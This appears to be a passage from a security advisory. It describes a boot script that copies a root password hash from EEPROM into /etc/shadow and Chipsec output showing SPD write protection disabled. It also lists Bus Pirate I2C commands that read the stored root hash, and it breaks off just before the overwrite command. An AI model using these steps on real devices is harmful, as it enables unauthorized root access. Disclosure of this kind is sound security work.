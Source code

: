 Here's code from the bash script that the eeprom_handler service executes
upon every boot:

</PRE>
```sh
function update_shadow_file_rootuser {
  local ENCRYPTED_PASSWORD=$1

  local TMPFILE=$(tempfile -m 0640) grep -v ^root /etc/shadow > ${TMPFILE}

  local ROOT_LINE=$(grep ^root /etc/shadow | cut -d: -f1,3-)
  echo ${ROOT_LINE} | sed -es":\::\:${ENCRYPTED_PASSWORD}\::" >> ${TMPFILE}

  mv ${TMPFILE} /etc/shadow
}

function handle_root_password {
  if [ ! -e ${ETC_EEPROM}/.p.eesign.status ]; then
    return 0
  fi
  if [[ `cat ${ETC_EEPROM}/.p.eesign.status` != 'ok' ]]; then
    return 0
  fi
  if [ ! -e ${ETC_EEPROM}/p.root.password ]; then
    return 0
  fi 
   
  update_shadow_file_rootuser `cat ${ETC_EEPROM}/p.root.password`
```
<PRE>

Lets look at the Chipsec output that flags the actual issue:
 
  [x][ Module: SPD Write Disable
  [*] SMBUS_HCFG = 0x01 << Host
  Configuration (b:d.f 00:31.3 + 0x40)
    [04] SPD_WD           = 0 << SPD_WD 
  [-] FAILED: SPD Write Disable is not set and SPDs were detected

To read the root users hashed password with bus pirate:
 
  [0xAE 0x05 0xC9] [0xAF r:16]

Which returns something like:
  RX: 0x15 ACK 0x6F ACK 0x2E ACK 0x6F ACK 0x70 ACK 0x65 ACK 0x72 ACK 0x61
  ACK..

When you decode, it looks like:

  $6$BqXRbsRiiI1MI6WE$RT68Njgv1LyqxjgNJ8Od1mLjm0NuWbEE7
  6z35a4XXXu7.SosIHaCgABcGM1s4xTFOywTaNFLu9SCXXXSvAPo.1
        

Now with physical access, you can use the following command to overwrite
the root user's hash (replace the bytes after the 3rd byte on each line
with the hash you want )
 